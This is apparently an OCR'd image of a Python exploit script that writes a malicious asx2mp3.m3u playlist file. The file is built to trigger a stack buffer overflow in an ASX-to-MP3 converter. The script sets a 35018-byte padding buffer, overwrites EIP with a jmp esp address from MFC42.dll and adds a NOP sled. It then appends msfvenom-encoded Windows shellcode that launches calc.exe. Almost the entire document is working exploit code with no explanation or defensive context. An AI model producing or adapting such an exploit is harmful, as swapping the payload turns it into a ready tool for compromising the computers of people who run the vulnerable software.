 EXP
---

    #!/usr/bin/python

    import struct

    buffer = "A" * 35018

    eip = struct.pack('<I', 0x73E66A47) #jmp esp from MFC42.dll

    preshellcode = "\x90" * 60

    # bad characters: \x00\x0a

    # msfvenom -p windows/exec cmd=calc.exe -f c EXITFUNC=seh -e x86/shikata_ga_nai -b "x00x0a" -a x86 --platform windows

    shellcode = ("\xb8\xa6\xa4\x36\xae\xd9\xc5\xd9\x74\x24\xf4\x5b\x31\xc9\xb1"
    "\x31\x31\x43\x13\x83\xeb\xfc\x03\x43\xa9\x46\xc3\x52\x5d\x04"
    "\x2c\xab\x9d\x69\xa4\x4e\xac\xa9\xd2\x1b\x9e\x19\x90\x4e\x12"
    "\xd1\xf4\x7a\xa1\x97\xd0\x8d\x02\x1d\x07\xa3\x93\x0e\x7b\xa2"
    "\x17\x4d\xa8\x04\x26\x9e\xbd\x45\x6f\xc3\x4c\x17\x38\x8f\xe3"
    "\x88\x4d\xc5\x3f\x22\x1d\xcb\x47\xd7\xd5\xea\x66\x46\x6e\xb5"
    "\xa8\x68\xa3\xcd\xe0\x72\xa0\xe8\xbb\x09\x12\x86\x3d\xd8\x6b"
    "\x67\x91\x25\x44\x9a\xeb\x62\x62\x45\x9e\x9a\x91\xf8\x99\x58"
    "\xe8\x26\x2f\x7b\x4a\xac\x97\xa7\x6b\x61\x41\x23\x67\xce\x05"
    "\x6b\x6b\xd1\xca\x07\x97\x5a\xed\xc7\x1e\x18\xca\xc3\x7b\xfa"
    "\x73\x55\x21\xad\x8c\x85\x8a\x12\x29\xcd\x26\x46\x40\x8c\x2c"
    "\x99\xd6\xaa\x02\x99\xe8\xb4\x32\xf2\xd9\x3f\xdd\x85\xe5\x95"
    "\x9a\x74\x17\x24\x36\xe0\x8e\xdd\x7b\x6c\x31\x08\xbf\x89\xb2"
    "\xb9\x3f\x6e\xaa\xcb\x3a\x2a\x6c\x27\x36\x23\x19\x47\xe5\x44"
    "\x08\x24\x68\xd7\xd0\x85\x0f\x5f\x72\xda")

    with open("asx2mp3.m3u", "w+") as f:
        f.write(buffer + eip + preshellcode + shellcode)

    print "m3u File Created Successfully\n"